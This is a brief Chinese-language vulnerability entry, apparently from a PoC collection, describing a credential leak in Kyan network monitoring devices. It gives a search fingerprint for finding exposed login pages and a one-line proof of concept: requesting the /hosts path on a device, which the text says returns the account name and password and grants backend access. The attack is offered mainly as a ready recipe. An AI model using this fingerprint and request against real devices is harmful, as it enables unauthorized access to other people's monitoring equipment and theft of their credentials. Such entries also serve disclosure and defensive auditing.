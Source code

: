 # Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

```
Kyan
```

## 网络测绘

```
title="platform - Login"
```

## 漏洞复现

登录页面如下

![](./images/202202140926162.png)

POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```

![](./images/202202140927595.png)

成功获得账号密码



